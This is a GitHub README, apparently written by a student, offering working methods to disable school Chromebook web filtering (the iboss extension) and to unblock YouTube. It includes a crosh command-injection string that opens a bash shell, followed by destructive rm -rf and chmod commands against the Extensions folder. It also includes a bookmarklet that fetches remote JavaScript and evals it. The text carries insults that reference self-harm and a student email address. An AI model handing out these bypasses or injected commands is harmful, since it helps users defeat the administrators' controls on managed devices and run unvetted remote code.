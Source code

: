## Tools for responsible students. If you do not have a brain, turn back now.
<br>

## I also have an unbl0cked gams website now, visit at https://sreekar617.github.io

<details>
    
<summary><b>unblock youtube (EVEN EASIER)</b></summary>

1. Find a video, then right click on it and click on "copy link address"
    
2. Paste the URL into your search bar
    
3. Add a - after the T in the url, like this:
    
    you<b>-</b>tube​.com/watch?v=dQw4w9WgXcQ

4. Press enter

[i'm illiterate and can't read, i need a video tutorial](https://bit.ly/3BFKyRT)

</details>

<details>
    
<summary><b>blow up iboss</b></summary>

1. Go to [this website](sreekar617.github.io/)
    
2. update this tutorial later
    
3. forget to update the tutorial
    
    you<b>-</b>tube​.com/watch?v=dQw4w9WgXcQ

4. forget to include the proper website and instead leave a rickroll

[i'm illiterate and can't read, i need a video tutorial](https://bit.ly/3BFKyRT)

</details>

    
<br>
<br>
<details>
    
<summary>blow up iboss method 69 (PATCHED!!!)</summary>

0. READ THE WHOLE THING BEFORE ATTEMPTING!!! IF I GET ONE MORE STUPID EMAIL I SWEAR IM DELTEING THIS WHOLE PAGE!!!<sub>sysadmins you didnt hear that<sub>

1. Go to this page: `chrome-extension://kmffehbidlalibfeklaefnckpidbodff/manifest.json`

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C).

3. While on the extension page (A), click the chrome://kill bookmark (B). The page should crash. MAKE SURE TO READ STEP 4 BEFORE DOING STEP 3.

4. INSTANTLY start spamming chrome://hang (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or ctrl+R). You should have reloaded within one or two seconds of killing the page. See timing here:
    
    <img width="522" alt="timing diagram" src="https://ltmeat.bypassi.com/img/line.png">
    <br>
    <img width="327" alt="timing diagram" src="https://ltmeat.bypassi.com/img/abc.gif">
    
If you go to [this page](https://www.google.com/search?q=chick+fil+a&rlz=1CASFJY_enUS1052&oq=proxy+fil+a&aqs=chrome.0.0i271j46i131i199i433i465i512j46i340i433i512l2j46i131i199i433i465i650j0i512j0i433i512j0i512jknives%20in%20ww10i271.1044j0j7&sourceid=chrome&ie=UTF-8&safe=active&ssui=on) and it loads, it worked!. You can close your tabs and the extension will be blown up successfully. If nothing loads, then you probably reloaded too late or spammed too slow. This isn't rocket science! Restart your computer and try again.


Note that the steps above are by no means the only way to perform the exploit. I'll add the first alternate set of instructions on May 11th for people affected by patches.
    
Need help? Go <b>~~kill yourse~~</b> email me [here](mailto:2027ramid16@moundsviewschools.org) or open an issue [here](https://github.com/Sreekar617/i-love-rice/issues/new) (you need a github account!)
    
</details>

<details>

<summary>unblock youtube (PATCHED!!!)</summary>
0. READ THE WHOLE THING BEFORE ATTEMPTING!!! THIS IS DIFFERENT FROM THE ABOVE METHOD!!!

1. Go to this page: `chrome-extension://bjlelllmddmghonfckbpjafiamjhlkio/manifest.json`

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C).

3. While on the extension page (A), click the chrome://kill bookmark (B). The page should crash. MAKE SURE TO READ STEP 4 BEFORE DOING STEP 3.

4. INSTANTLY start spamming chrome://hang (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or ctrl+R). You should have reloaded within one or two seconds of killing the page. See timing here:
    
    <img width="522" alt="timing diagram" src="https://ltmeat.bypassi.com/img/line.png">
    <br>
    <img width="327" alt="timing diagram" src="https://ltmeat.bypassi.com/img/abc.gif">
    
5. Click on the lock or building icon
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/231313548-5de4be10-b851-415e-b3f8-88d745479b0d.png">

6. Click on "Cookies and site data"
<img src="https://user-images.githubusercontent.com/115044820/231524166-9db656cc-1b8e-4572-b35f-04d75f477145.png" alt="Screenshot 2023-04-11 7.01.37 PM.png"/>

7. Delete all the cookies. NO COOKIES!!!
<img src="https://user-images.githubusercontent.com/115044820/231531249-8af4af81-068a-4cff-adac-bb9f918efd6c.png" alt="Screenshot 2023-04-12 11.27.26 AM.png"/>

8. Go to youtube.com in a new tab.

If it loads, it worked!. Just don't close your tabs and the extension will be blown up successfully. If it stops working, redo steps 5-8. If it still doesn't work, close all your tabs and try again.


Note that the steps above are by no means the only way to perform the exploit. I'll add the first alternate set of instructions on May 11th for people affected by patches.
    
Need help? Go <b>~~kill yourse~~</b> email me [here](mailto:2027ramid16@moundsviewschools.org) or open an issue [here](https://github.com/Sreekar617/i-love-rice/issues/new) (you need a github account!)

</details>

<details>

<summary>the grass exploit</summary>

0. THIS IS VERY DIFFICULT. DO NOT PROCEED WITHOUT ATLEAST A BASIC UNDERSTANDING OF BASH. base64 lmao
        
1. Find an unblocked way to open crosh. Do not ask me for help on this, I will not tell you how.

2. Type in `set_cellular_ppp \';bash;exit;\'`
        
3. You should be logged in as chronos. There is a way to escalate root from this position, but again im not telling you
        
4. rm -rf ~/Extensions/*

5. chmod 000 ~/Extensions/

5. wuv you sysadmins <3

</details>

<details>

<summary>blow up iboss method 2 (PATCHED!!!)</summary>

1. Bookmark any page
2. Copy the code below
```js
javascript:opener.eval(`
(async function () {
    eval((await (await fetch("https://raw.githubusercontent.com/Sreekar617/i-love-rice/main/cod.js")).text()));
})();`) && close();
```
3. Right click on the bookmark, click on "edit"
4. Under the field labeled "URL", paste in the code.
5. Go to [this page.](https://tinyurl.com/byeswamp)
6. Click on "The Blue Hat Crew Is the Best!"
7. On the blank page that appears, click on the bookmark you created earlier.
8. Click on "iboss cloud enterprise"

</details>

  
<details>
  
  <summary>extension thingie (PATCHED!!!)</summary>
  
1. Copy the code below
  ```js
  javascript:opener.chrome.send("TurnOffSync");
  ```
2. Bookmark any random page
3. Right click on the bookmark, and hit "Edit"
4. Under the field labeled "URL", paste in the code
5. Visit chrome://settings/resetProfileSettings
6. Press on "current settings"
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/230745894-49e77af2-b4e5-4441-b7d3-075c7674ff58.png">
  
7. On the new page that opens, click on the bookmark you created earlier.
8. visit chrome://restart, DO NOT RESTART YOUR CHROMEBOOK MANUALLY
9. repeat steps 5-8 every time it stops working.
10. if google sign-ins break, restart your device.

Go to youtube, click the lock next to the url, click on "cookies and site data", and delete all cookies. In a new tab, go to youtube. It should be unblocked.

</details>

<details>
  
<summary>Unblock Youtube (PATCHED!!!)</summary>
 
1. Click on the lock
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/231313548-5de4be10-b851-415e-b3f8-88d745479b0d.png">

2. Click on "Cookies and site data"
<img src="https://user-images.githubusercontent.com/115044820/231524166-9db656cc-1b8e-4572-b35f-04d75f477145.png" alt="Screenshot 2023-04-11 7.01.37 PM.png"/>

3. Delete all the cookies. NO COOKIES!!!
<img src="https://user-images.githubusercontent.com/115044820/231531249-8af4af81-068a-4cff-adac-bb9f918efd6c.png" alt="Screenshot 2023-04-12 11.27.26 AM.png"/>

4. Go to youtube.com in a new tab.

</details>


Update on Projects:


| Project  | ETA |
| ------------- | ------------- |
| Uboss V3 (Unblocking Method)  | June  |
| Tissue Box  (Unblocking Method)  | September |
| Francium (Unblockable Unblocker) | June |
| Gallium (Game Site) | June |
| Blue (Unblocker) | September |
| Gemnoid (Unblocker) | September |

quick disclaimer none of these above projects are made by me. this is just a reminder for myself to check up on these projects every once in a while

<b>me when you star and share:</b>

<img width="404" alt="literally me" src="https://user-images.githubusercontent.com/115044820/235795472-18621a38-e169-4260-a1be-1b74e58044e2.png">


<sub>I do not condone any misuse of the tools included here. Use responsibly and at your own risk. Everything on this page is for educational purposes to see how far we can push Chrome OS, the pathetic excuse for an operating system that runs on pathetic excuses for computers.</sub>
